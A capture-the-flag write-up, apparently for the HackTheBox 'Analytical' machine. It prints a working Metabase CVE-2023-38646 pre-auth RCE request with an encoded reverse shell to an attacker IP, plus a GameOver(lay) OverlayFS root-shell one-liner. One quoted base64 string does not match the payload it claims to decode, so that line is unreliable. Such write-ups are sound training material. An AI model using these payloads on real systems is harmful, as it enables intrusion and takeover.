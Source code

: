 # 1. Enumeration
- As always, we will start with a nmap scan:

![img.png](img/img.png)

- Visit the website at port 80, we are immediately redirect to another domain: `analytical.htb`. 
Edit `/etc/hosts`, we can now access the webpage:

![img_1.png](img/img_1.png)

- Upon clicking `Login`, we are redirected to `data.analytical.htb`. We are now presented
with a `metabase` login page.

![img_2.png](img/img_2.png)

- Not much we can do here. Trying some common username & password doesn't yield any results. After
some researches, something come across my eyes: Pre-Auth RCE in Metabase 
(<a href="https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/">CVE-2023-38646</a>)

# 2. Initial Foothold

- As the blog stated, multiple vulnerabilities found in Metabase was chained together to obtain
a Pre-Auth Remote Code Execution. To recap, the following was done:
  - Obtained the setup token from `/api/session/properties` (no authentication required)
  - Found an API endpoint that can be used with this token that validates DB connections
  - Found a 0day SQL injection vulnerability in H2 db driver
  - Using `zip:/app/metabase.jar!/sample-database.db` to prevent the corruption of any databases on disk

- Combining all of these pieces together, we are left with a beautiful proof-of-concept which can be found below:
```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 912
Origin: http://data.analytical.htb
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=cfd19b37-3377-4c51-add1-73cb155e863a

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
     "details": {
                "is_on_demand": false,
                "is_full_sync": false,
                "is_sample": false,
                "cache_ttl": null,
                "refingerprint": false,
                "auto_run_queries": true,
                "schedules": {},
                "details": {
                    "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE 
                    SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c 
                    {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuODAvNTU1NSAwPiYx}|{base64,-d}|{bash,-i}')$$--=x",
                    "advanced-options": false,
                    "ssl": true
                },
                "name": "an-sec-research-team",
                "engine": "h2"
            }
}
```

- The value of `YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx` decoded is `sh -i >& /dev/tcp/10.10.14.80/5555 0>&1`

- Sending the request yields an error, but a reverse shell was actually triggered:

![img_3.png](img/img_3.png)

# 3. User Own

- Upon checking environment variables, we found the credentials of other users:

![img_4.png](img/img_4.png)

- Login using SSH and grab the flag:

![img_5.png](img/img_5.png)

# 4. Privilege Escalation

- Checking `suid` and `sudo -l` does not provide any useful information:

![img_6.png](img/img_6.png)

- When it comes to this limitation, we have no other choices but to try to exploit kernel privileges escalation
- Luckily, a vulnerability found in Ubuntu < 20.10 allowed a local attacker to gain elevated privileges,
  due to a patch carried in Ubuntu to allow unprivileged OverlayFS mounts.
- Reference: <a href="https://github.com/briskets/CVE-2021-3493">CVE-2021-3493</a>
- Let's try to compile the exploit and serve it to the target server:

![img_7.png](img/img_7.png)

# 5. Another approach

- We can directly elevate privilege using `gameoverlay`:

```
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; 
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && 
touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash\")'";rm -rf l u w m
```

![img_8.png](img/img_8.png)

- Reference: <a href="https://github.com/OllaPapito/gameoverlay">gameoverlay</a>